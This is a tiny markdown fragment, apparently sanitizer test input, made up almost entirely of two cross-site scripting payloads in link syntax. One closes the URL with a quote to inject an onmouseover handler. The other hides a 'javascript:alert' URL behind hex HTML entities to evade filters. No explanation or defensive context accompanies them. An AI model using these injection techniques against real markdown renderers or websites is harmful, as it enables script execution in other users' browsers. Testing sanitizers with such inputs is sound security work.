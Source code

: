 

[Schopath](https://github.com/"/onmouseover="alert(/schopath/)"/x="ZeroByte.ID)
[a](&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29)
